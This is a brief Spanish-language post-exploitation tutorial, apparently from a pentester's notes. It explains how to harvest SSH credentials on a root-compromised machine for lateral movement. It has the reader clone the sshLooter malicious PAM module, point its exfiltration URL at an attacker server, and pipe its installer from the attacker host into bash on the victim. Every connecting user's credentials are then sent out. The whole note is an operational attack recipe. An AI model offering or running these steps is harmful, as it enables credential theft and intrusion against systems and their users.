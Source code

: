 
Supón que as comprometido una máquina remota y eres root. Y quieres coleccionar cuantas más credenciales sean posibles para moverte lateralmente aprovechando *casos de reuso de credenciales*.

Lo que podemos hacer es robar las credenciales SSH a través de un [malicious PAM module](https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html?lipi=urn:li:page:d_flagship3_feed;6EEiLAg8RlyAOl67hZyVRA==)

A través de este módulo PAM malicioso, cualquier intento de conexión SSH va a ser reenviado(forwarded) a un servidor bajo tu control, acompañado de las credenciales usadas para ese intento de conexión.

*Ejemplo*:

En nuestra máquina atacante:

```
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter
```

Hostear y editar el *install.sh* y *looter.py*, indicando la variable *url* a un servidor bajo nuestro control, el cual pueda capturar POST requests.

En la máquina comprometida:

```
curl http://IPkali:puerto/install.sh | bash
```

Y en nuestro servidor veremos algo así:

![[Pasted image 20230129173536.png]]

Ahora podemos tratar de usar las credenciales capturadas en otras máquinas en la red.


